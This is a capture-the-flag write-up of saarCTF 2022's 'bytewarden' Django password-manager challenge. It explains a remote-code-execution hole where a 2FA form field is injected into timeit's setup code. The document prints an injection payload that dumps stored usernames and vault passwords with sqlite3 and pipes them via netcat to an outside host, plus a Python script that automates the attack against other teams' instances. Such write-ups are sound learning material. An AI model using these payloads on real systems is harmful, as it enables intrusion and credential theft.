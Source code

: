 # saarCTF 2022: bytewarden

Participant: Dosenpfand

## TL;DR / Short Summary

A web challenge, consisting of a [Django](https://www.djangoproject.com/) application where multiple exploitable vulnerabilities where present.

## Task Description

The challenge consisted of a web application, implemented using the Python web framework Django. It implements a password manager, where users can register and subsequently save passwords and security questions with its answers.
The application was reachable over plaintext HTTP on port 1984 and its source code was located in `/home/bytewarden`. Additionally, to the source code, network captures of requests opposing teams where executing, could be used as resources.

## Analysis Steps

We started to analyze the service by skimming through the source code files. As none of us had any previous experience with Django it proofed difficult to spot unusual code parts.

We noticed that most values that are saved in the database, an [SQLite](https://www.sqlite.org/index.html) database located at `/home/bytewarden/bytewarden/db.sqlite`), were encrypted by a simple scheme: First they where XORed with the username and subsequently Base64 encoded. This happens on the client side via Javascript using the function [`submit_form()`](https://github.com/saarsec/saarctf-2022/blob/1cdae5252e5b702f07833df0104dbe39751d8670/bytewarden/service/bytewarden/bytewarden/static/crypto.js#L46).

Finally, we found a suspicious function in the `TimingMiddleware` class in the file [`bytewarden/bytewarden/utils.py`](https://github.com/saarsec/saarctf-2022/blob/1cdae5252e5b702f07833df0104dbe39751d8670/bytewarden/service/bytewarden/bytewarden/utils.py#L39):

```python
def process_template_response(self, request, response):

    if not request.user.is_authenticated or not DEBUG:
        return response

    if not response.get("DebugStats") and request.POST.get("2fa_code"):

        # TODO add in more places
        setup = \
        "from vault.utils import two_factor_match\n"\
        + f"u_code = '{request.user.code}'\n"\
        + f"p_code = '{request.POST.get('2fa_code')}'"

        diff = timeit("two_factor_match(u_code, p_code)", setup = setup, timer = thread_time_ns, number=10000)

        response["DebugStats"] = \
            f"Date and Time: {datetime.now().strftime('%Y-%m-%d, %H:%M:%S')};"\
            + f"Password Check: {diff}ns;"\
            + f"User: {request.user.username}, last login {request.user.last_login}, date joined {request.user.date_joined}"
```

## Vulnerabilities / Exploitable Issue

We suspected that this `process_template_response()` function allowed remote code execution to logged-in users: The [`timeit()`](https://docs.python.org/3/library/timeit.html) function executes the string passed as `setup` parameter as Python code. This string is partly controlled by the user via the HTTP post parameter `2fa_code`.

We deployed a quick and dirty fix by sanitizing the user input to the `setup` parameter to only allow digit characters:

```python
setup = \
"from vault.utils import two_factor_match\n"\
+ f"u_code = '{filter(str.isdigit, request.user.code)}'\n"\
+ f"p_code = '{filter(str.isdigit, request.POST.get('2fa_code'))}'"
```

## Solution

To exploit the issue ourselves we reused a code snippet that another team was using to steal out flag and therefore ended up in our logs:

```python
';__import__('os').system('sqlite3 db.sqlite3 "select username, vault.password from users_customuser user, vault_password vault where vault.user_id = user.id order by vault.id desc limit 10" | nc 10.32.66.146 10000');'
```

It executes the `sqlite` binary, selects username and vault password sorted by the newest vaults, pipes the resulting output into netcat which sends it to our server, started via `ncat -k -l 10000`. After trying it out by manually inserting the aforementioned exploit into the two factor field of the web form our local netcat received and printed the following data.

```
CuteDifficultLocket3883|EDQ1Nz8cESUoIjQlNQ0+JwVSM2ZUC3sLQAYhN1o2FhtUNypNKxI=
RomanticExultantPtarmigan3034|AS4sMxUBDiAEOTQlNSA/Nyc3OSo6MxBQIXxxX2szVzUTNhkAUzg=
BlueeyedHardtofindPropane1420|ES00Nx4MNCcJIDMtNS43Kiw0OkM7Qg1fClUNCgcpCQEcERtXJTU=
PriceyUnaccountableMud2896|AzMoMR4MFC0gIiImNC8lIikcIjsfK21Lf1wxNTsyDRYkLTAwLBI=
LateChunkyTurtle8543|HyA1NzgcAi0qOBU8MzU9JEt0QnV5AgQnEj8RCBI7MzM6PgEMdkg=
RusticSquareGauntlet7917|ATQyJhIXNDI0IDMsBiAkLT4bJjNfaxxGABkQBS87KRIGNigRIRw=
FineGullibleCarload4076|FSgvNzwBPS8oIy0sAiAjLl44N2B6RFcjPxdXBjoJAlonKSEpMA8=
WetCarelessCappelletti2559|BCQ1ERoGJC8kMjIKIDEhITs0KDsmKlpQBXgZASItCTdTP1YAOT4=
```

To decrypt the passwords we used a [Cyberchef recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)XOR(%7B'option':'UTF8','string':'CuteDifficultLocket3883'%7D,'Standard',false)&input=RURRMU56OGNFU1VvSWpRbE5RMCtKd1ZTTTJaVUMzc0xRQVloTjFvMkZodFVOeXBOS3hJPQ) and got the flag which we submitted successfully.

**Flag: `SAAR{uwCAAAIAAQDn7GUl3HH5rDs3Ppr7BF9g}`**

As the manual exploit and flag submission is not feasible to do for all opposing teams every tick we tried to automate the process next. We wrote a small Python script to get started.

```python
import sys
import requests
import string
import random

ip = next(iter(sys.argv[1:2]), '10.32.109.2')
timeout = 60
HOST = f'http://{ip}:1984'
letters = string.ascii_lowercase
username_pw = ''.join(random.choice(letters) for i in range(20))

s = requests.Session()
s.post( f'{HOST}/users/signup/', data={"username": username_pw, "password1": username_pw}, verify=False, timeout=timeout)
s.post(f'{HOST}/users/login/', data={"username": username_pw, "password": username_pw}, verify=False, timeout=timeout)
resp = s.get(f'{HOST}/vault/', verify=False, timeout=timeout)
twofa_code = "';__import__('os').system('sqlite3 db.sqlite3 \"select username, vault.password from users_customuser " \
             "user, vault_password vault where vault.user_id = user.id order by vault.id desc limit 10\" | nc " \
             "10.32.66.146 10000');'"
resp = s.post(HOST + "/vault/", verify=False, timeout=timeout, data={'2fa_code': twofa_code})
print(resp.text)
```

It first registers a new user on the opposing teams instance, then logs in and finally submits the vault form including the exploit in the `2fa_code` field. Unfortunately, shortly after we were able to successfully test this first automation step, another team took all instances completely offline that did not yet patch this RCE vulnerability. We could therefore not continue the automation process, as no targets where available anymore.

## Alternative Solutions

This write-up focuses on only one vulnerability of the application. There are at least three other ones, two of them described in the [saarCTF official git repo](https://github.com/saarsec/saarctf-2022/tree/master/bytewarden/exploits) and one of them described in a write-up by my teammates.

## Lessons Learned

While before the saarCTF I had only participated in two Jeopardy style CTFs, this was my first Attack/Defense CTF. Compared to the Jeopardy style it felt even more intense. While searching for vulnerabilities was quite comparable, simultaneously fixing and exploiting an issue was an interesting experience.

Finally, automating the exploit process was much more time-intense than expected. However, it could have been prepared and practiced, in advance before the main event.

## References

* [saarCTF official git repo](https://github.com/saarsec/saarctf-2022/)
* [Python timeit() documentation](https://docs.python.org/3/library/timeit.html)
